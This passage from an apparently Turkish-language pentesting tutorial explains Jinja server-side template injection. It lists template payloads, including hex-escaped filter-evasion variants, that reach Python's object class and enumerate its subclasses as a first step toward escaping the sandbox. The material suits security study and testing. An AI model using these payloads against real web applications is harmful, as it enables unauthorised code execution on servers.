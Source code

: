 ## **Jinja Enjeksiyonu**

Öncelikle, bir Jinja enjeksiyonunda **sandbox'tan çıkmanın bir yolunu bulmanız** ve normal python yürütme akışına erişimi geri kazanmanız gerekiyor. Bunu yapmak için, **sandbox'tan erişilebilir ancak** **sandbox dışı ortamdan gelen nesneleri** **istismar etmeniz** gerekiyor.

### Global Nesnelere Erişim

Örneğin, `render_template("hello.html", username=username, email=email)` kodunda username ve email nesneleri **sandbox dışı python ortamından gelir** ve **sandboxlı ortamda erişilebilir** olacaktır.\
Ayrıca, **sandboxlı ortamdan her zaman erişilebilir** olacak başka nesneler de vardır, bunlar:
```
[]
''
()
dict
config
request
```
### Recovering \<class 'object'>

Sonra, bu nesnelerden **`<class 'object'>`** sınıfına ulaşmamız gerekiyor, böylece tanımlı **sınıfları** **recover** etmeye çalışabiliriz. Bunun nedeni, bu nesneden **`__subclasses__`** metodunu çağırarak **sandbox dışındaki** python ortamındaki tüm sınıflara erişebilmemizdir.

Bu **nesne sınıfına** erişmek için, önce bir **sınıf nesnesine** erişmeniz ve ardından ya **`__base__`**, **`__mro__()[-1]`** ya da `.`**`mro()[-1]`** ile erişmeniz gerekir. Ve sonra, bu **nesne sınıfına** ulaştıktan sonra **`__subclasses__()`** metodunu **çağırırız**.

Bu örneklere göz atın:
```python
# To access a class object
[].__class__
''.__class__
()["__class__"] # You can also access attributes like this
request["__class__"]
config.__class__
dict #It's already a class

# From a class to access the class "object".
## "dict" used as example from the previous list:
dict.__base__
dict["__base__"]
dict.mro()[-1]
dict.__mro__[-1]
(dict|attr("__mro__"))[-1]
(dict|attr("\x5f\x5fmro\x5f\x5f"))[-1]

# From the "object" class call __subclasses__()
{{ dict.__base__.__subclasses__() }}
{{ dict.mro()[-1].__subclasses__() }}
{{ (dict.mro()[-1]|attr("\x5f\x5fsubclasses\x5f\x5f"))() }}

{% raw %}
{% with a = dict.mro()[-1].__subclasses__() %} {{ a }} {% endwith %}

# Other examples using these ways
{{ ().__class__.__base__.__subclasses__() }}
{{ [].__class__.__mro__[-1].__subclasses__() }}
{{ ((""|attr("__class__")|attr("__mro__"))[-1]|attr("__subclasses__"))() }}
{{ request.__class__.mro()[-1].__subclasses__() }}
{% with a = config.__class__.mro()[-1].__subclasses__() %} {{ a }} {% endwith %}
{% endraw %}

```